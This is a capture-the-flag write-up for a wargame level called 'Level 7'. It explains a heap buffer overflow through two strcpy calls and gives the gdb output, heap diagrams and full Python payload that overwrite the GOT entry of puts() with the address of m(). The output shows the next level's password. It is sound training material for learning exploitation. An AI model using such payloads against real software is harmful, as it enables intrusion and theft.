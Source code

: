 # Level 7

<h3>source.c</h3>

```console
char c[68];

void m(void) {
  printf("%s - %d\n", c, time(0));
}

int main(int argc, char** argv) {
  int* l_var1;
  int* l_var2;

  l_var1 = malloc(8);
  l_var1[0] = 1;
  l_var1[1] = malloc(8);

  l_var2 = malloc(8);
  l_var2[0] = 2;
  l_var2[1] = malloc(8);

  strcpy(l_var1[1], argv[1]);
  strcpy(l_var2[1], argv[2]);

  fgets(c, 68, fopen("/home/user/level8/.pass", "r"));

  puts("~~");

  return (0);
}
```

<h3>Step</h3>

In this program, we can see there is several `malloc()` and `strcpy()` which means we could exploit the heap buffer overflow like the previous level

At the later part of the `main()`, `fopen()` is reading the password file, which in turn get the content saved into the global variable `c` by `fgets()`

And `m()` will prints out the content of the global variable `c`, but it never get called

Our target this time will be to redirect the `puts()` by modify its `GOT` value to the address of `m()` so it will be executed instead of the real `puts()`

We can achieved this by first over writing te value of `l_var2[1]` with the help of 1st `strcpy()` so that `l_var2[1]` will contain the address of the `GOT` from `puts()`

Next the 2nd `strcpy()` will write the address of `m()` into the `GOT` of `puts()`

<h3>Exploit</h3>

First we need to get the address of `m()`

```console
(gdb) print m
$1 = {<text variable, no debug info>} 0x80484f4 <m>
```

There we have the address of `m()` which is `0x080484f4`

Next, lets visualize the `heap` state after all those call to `malloc()`

```console

1st malloc call (l_var1 = malloc(8))

        +-----------+
        | l_var1    |                                                 -> 8 bytes reserve for l_var1,
+-------------------+                                                    and it could split to 2 area of 4 byte by saving 2 int type data
| M | B | 8 bytes   |
+-------------------+
        | [0] | [1] |
        +-----------+

2nd malloc call (l_var1[1] = malloc(8))

        +-----------+   +-----------+
        |  l_var1   |   | l_var1[1] |                                 -> 8 bytes reserve for l_var1[1],
+-----------------------------------+                                     now l_var1[1] contains the address that point to those area
| M | B | 8 bytes   | B |  8 bytes  |                
+-----------------------------------+
        | [0] | [1] |___/
        +-----------+

3rd malloc call (l_var2 = malloc(8))

        +-----------+   +-----------+   +-----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |                 -> 8 bytes reserve for l_var2,
+---------------------------------------------------+                    it could split to 2 area of 4 byte by saving 2 int type data
| M | B | 8 bytes   | B |  8 bytes  | B |  8 bytes  |
+---------------------------------------------------+
        | [0] | [1] |___/               | [0] | [1] |
        +-----------+                   +-----------+

4th malloc call (l_var2[1] = malloc(8))

        +-----------+   +-----------+   +-----------+   +----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |   | l_var2[1]|  -> 8 bytes reserve for l_var2[1],
+------------------------------------------------------------------+     now l_var2[1] contains the address that point to those area
| M | B | 8 bytes   | B |  8 bytes  | B | 8 bytes   | B |  8 bytes |
+------------------------------------------------------------------+
        | [0] | [1] |__/                | [0] | [1] |__/
        +-----------+                   +-----------+


Offset needed to overwrite l_var1[1]

        +-----------+   +-----------+   +-----------+   +----------+
        |  l_var1   |   | l_var1[1] |   |  l_var2   |   | l_var2[1]|
+------------------------------------------------------------------+
| M | B | 8 bytes   | B |  8 bytes  | B | 8 bytes   | B |  8 bytes |
+------------------------------------------------------------------+
        | [0] | [1] |__/|           |   | [0] | [1] |__/
        +-----------+   |           |   +-----------+
                        | 8 bytes   | 8 |  4  |                       -> Combine size of l_var[1] (8 bytes) + l_var2 block metadata (8 bytes)
                        +-----------+---+-----+                          + l_var2[0] size of int (4 bytes), we get the total of 20 bytes

```

Now we have the offset to overwrite the address saved in side `l_var2[1]`, lets find the `GOT` address of `puts()`

```console
(gdb) disas 0x8048400
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    DWORD PTR ds:0x8049928
   0x08048406 <+6>:	push   0x28
   0x0804840b <+11>:	jmp    0x80483a0
End of assembler dump.
```

There we have it, `0x08049928`

First we need to overwrite the address saved in side `l_var2[1]` with the following

`python -c "print 'a' * 20 + '\x28\x99\x04\x08'"`

Next to overwrite the content of `GOT` with the following

`python -c "print '\xf4\x84\x04\x08'"`

Now is the time to combine everything together

```console
level7@RainFall:~$ ./level7 `python -c "print 'a' * 20 + '\x28\x99\x04\x08'"` `python -c "print '\xf4\x84\x04\x08'"
`
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1636248706
```